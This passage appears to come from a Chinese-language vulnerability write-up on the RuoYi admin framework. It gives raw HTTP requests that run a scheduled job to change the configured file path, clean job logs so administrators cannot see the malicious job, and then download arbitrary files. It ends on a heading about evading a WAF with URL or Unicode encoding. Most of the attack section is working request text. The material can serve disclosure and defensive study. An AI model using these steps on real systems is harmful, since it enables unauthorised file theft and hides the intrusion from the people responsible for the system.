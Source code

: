 - 立即执行 
```
jobId=117
```

  
 对应的定时任务，触发 
```
ruoYiConfig.setProfile()
```

  
 方法调用，完成配置文件路径的修改。  
  
- 修改后，系统将从新的配置路径（攻击者指定路径）读取文件。  
  
#### 清理任务日志（擦除攻击痕迹）  

```
POST /monitor/jobLog/clean HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-type: application/x-www-form-urlencoded
Content-Length: 0
Connection: close


```

- 删除任务执行日志，避免管理员发现恶意任务记录。  
  
- 此步骤非漏洞必要环节，但常用于隐蔽攻击行为。  
  
#### 触发任意文件下载  

```
GET /common/download/resource?resource=2.txt HTTP/1.1
Cookie: _tea_utm_cache_10000007=undefined; java-chains-token-key=admin_token; JSESSIONID=7c625b5d-cd39-49fd-87db-bbb64c596c1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Host: 10.40.107.67
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close


```

- 下载功能仅校验“配置文件中的路径”，未对动态修改后的路径进行二次白名单校验。  
  
## bypass  
  
对路径参数进行 URL 编码或 Unicode 编码，绕过 WAF 检测：  
